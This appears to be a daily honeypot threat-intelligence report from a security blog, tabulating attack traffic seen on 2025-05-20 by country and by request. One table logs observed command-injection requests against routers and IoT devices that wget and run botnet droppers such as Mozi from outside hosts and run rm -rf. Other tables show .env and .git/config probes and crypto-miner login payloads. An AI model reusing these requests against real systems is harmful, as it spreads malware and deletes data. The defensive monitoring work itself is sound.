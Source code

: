 ```yaml
---
title: "Report: 2025-05-20 "
date: 2025-05-20
desciption: "Report: 2025-05-20" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-20 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 6 stage 1 IP address(es), linked to 6 dropper URL(s).  

There are 24 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1198 requests were recorded during the day, originating from 6 different countries, with a peak of 340 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| BR               | Germany            |
| US               | Germany            |
| US               | Germany            |
| SG               | Germany            |
| US               | Germany            |
| US               | Dubai              |
| PT               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                             |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 104.236.3.45    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                        |
| 123.129.129.145 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://123.129.129.145:46263/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                      |
| 141.98.11.147   | GET /shell?cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/payload1.sh+-O-+|+sh HTTP/1.1                                                                                                        |
| 103.48.66.213   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.48.66.213:41686/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                        |
| 141.98.11.128   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+r%3B+wget+http%3A%2F%2F212.81.47.226%2Fr%3B+chmod+777+r%3B+.%2Fr+tplink%3B+rm+-rf+r%60) HTTP/1.1 |
| 117.251.167.235 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                               |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|----:|----------------------:|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 133 |                     2 | GET /RemoteApplicationMetadata.rem?wsdl HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 153 |                     1 | GET /symfony/_profiler/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 155 |                     1 | GET /sapi/debug/default/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 156 |                     1 | GET /frontend/web/debug/default/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 157 |                     1 | GET /Admins/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 158 |                     1 | GET /Ads/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 159 |                     1 | GET /Alpha/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 217 |                     1 | \x00\x0E8F\x07^`7\xA5\x8F3\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 220 |                     1 | \x00\x0E8\xBD\xCC\xF2Px0\x9F\xF6\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 221 |                     1 | {\x22id\x22:1,\x22method\x22:\x22eth_submitLogin\x22,\x22worker\x22:\x22igwrcvap\x22,\x22params\x22:[\x220x00ec91cd401c52c518d40061c20fc10b0ec4a67a\x22,\x22x\x22],\x22jsonrpc\x22:\x222.0\x22}                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 222 |                     1 | {\x22id\x22:1,\x22jsonrpc\x22:\x222.0\x22,\x22method\x22:\x22login\x22,\x22params\x22:{\x22login\x22:\x2246PjJDrYonFdyUfWcXtj9rBhhs8ZBfpdxcEVYoze7sREMK1C6b5fguyRQSUhkwMXaxdpw54CWNTLTMef5wQccwkxC4JEMeo\x22,\x22pass\x22:\x22x\x22,\x22agent\x22:\x22XMRig/6.15.3 (Windows NT 10.0; Win64; x64) libuv/1.42.0 msvc/2019\x22,\x22algo\x22:[\x22cn/1\x22,\x22cn/2\x22,\x22cn/r\x22,\x22cn/fast\x22,\x22cn/half\x22,\x22cn/xao\x22,\x22cn/rto\x22,\x22cn/rwz\x22,\x22cn/zls\x22,\x22cn/double\x22,\x22cn/ccx\x22,\x22cn-lite/1\x22,\x22cn-heavy/0\x22,\x22cn-heavy/tube\x22,\x22cn-heavy/xhv\x22,\x22cn-pico\x22,\x22cn-pico/tlo\x22,\x22cn/upx2\x22,\x22rx/0\x22,\x22rx/wow\x22,\x22rx/arq\x22,\x22rx/graft\x22,\x22rx/sfx\x22,\x22rx/keva\x22,\x22argon2/chukwa\x22,\x22argon2/chukwav2\x22,\x22argon2/ninja\x22,\x22astrobwt\x22]}} |
| 249 |                     1 | \x00\x0E8L\x8A8'bR\x12\xC1\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 278 |                     1 | GET /Base/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 279 |                     1 | GET /Beta/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 280 |                     1 | GET /Blogs/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 298 |                     1 | GET /Boot/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 299 |                     1 | GET /Bot/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 300 |                     1 | GET /Build/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 303 |                     1 | GET /DuAb HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 304 |                     1 | GET /QzBP HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 342 |                     1 | POST /goform/umountUSBPartition HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| 411 |                     1 | GET /gateway/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 412 |                     1 | GET /57.129/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 413 |                     1 | GET /61/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   340 | US                 |
|  1 |                   282 | BG                 |
|  2 |                    85 | GB                 |
|  3 |                    81 | PL                 |
|  4 |                    64 | NL                 |
|  5 |                    52 | CN                 |
|  6 |                    47 | KR                 |
|  7 |                    43 | PT                 |
|  8 |                    29 | SC                 |
|  9 |                    25 | HK                 |
| 10 |                    21 | CH                 |
| 11 |                    19 | DE                 |
| 12 |                    13 | IN                 |
| 13 |                    13 | AZ                 |
| 14 |                    11 | SE                 |
| 15 |                    10 | IL                 |
| 16 |                    10 | BR                 |
| 17 |                     8 | SG                 |
| 18 |                     7 | LT                 |
| 19 |                     7 | AO                 |
| 20 |                     6 | RO                 |
| 21 |                     4 | BE                 |
| 22 |                     3 | CA                 |
| 23 |                     2 | TH                 |
| 24 |                     2 | MD                 |
| 25 |                     2 | GH                 |
| 26 |                     2 | AR                 |
| 27 |                     2 | VE                 |
| 28 |                     2 | KW                 |
| 29 |                     1 | FR                 |
| 30 |                     1 | ES                 |
| 31 |                     1 | RU                 |
| 32 |                     1 | JP                 |
| 33 |                     1 | LV                 |
| 34 |                     1 | CZ                 |
